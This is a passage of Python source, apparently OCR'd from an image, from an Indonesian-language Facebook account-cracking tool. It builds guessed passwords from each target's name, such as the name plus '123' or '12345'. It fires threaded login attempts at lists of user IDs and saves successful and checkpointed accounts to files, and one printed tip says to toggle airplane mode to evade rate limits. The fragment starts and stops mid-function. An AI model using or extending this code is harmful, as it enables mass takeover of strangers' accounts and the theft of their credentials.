 						na = name.split(' ')
						if len(na) == 1:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						elif len(na) == 2:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						elif len(na) == 3:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						elif len(na) == 4:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						else:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						TitidNeverDie.submit(self.basic, uid, pwx)
					except: pass
			hasil(ok,cp)
		elif suuu in ('3', '03'):
			print ('\n%s%s%s akun %s[OK] %stersimpan ke file %s> %sOK/%s.txt'%(U,til,O,H,O,M,H,waktu));jeda(0.2)
			print ('%s%s%s akun %s[%sCP%s]%s tersimpan ke file %s> %sCP/%s.txt'%(U,til,O,M,K,M,O,M,K,waktu));jeda(0.2)
			jalan ('\n%s!%s setiap crack 1k ID, mainkan mode pesawat 2 detik \n'%(U,O));jeda(0.2)
			with ThreadPoolExecutor(max_workers=30) as TitidNeverDie:
				for akun in self.id: 
					try:
						uid, name = akun.split('<=>')
						na = name.split(' ')
						if len(na) == 1:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						elif len(na) == 2:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						elif len(na) == 3:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						elif len(na) == 4:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						else:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						TitidNeverDie.submit(self.mobil, uid, pwx)
					except: pass
			hasil(ok,cp)
		else:
			print("%s%s Isi yang benar kentod "%(M,til))
			self.langsung()
			
	# TOUCH
	def touch(self, user, manual, **data):
		global ok,cp,loop
		warna = random.choice([M, H, K, B, U, O, P, J])
		sys.stdout.write('\r'+warna+'×\x1b[1;96m [crack] %s/%s [%sOK%s:%s%s%s]-[%sCP%s:%s%s%s]'%(loop,len(self.id),H,M,H,len(ok),O,K,M,K,len(cp),O)),
		sys.stdout.flush()
		try:
			for pw in manual:
				pw = pw.lower()
				ses = requests.Session()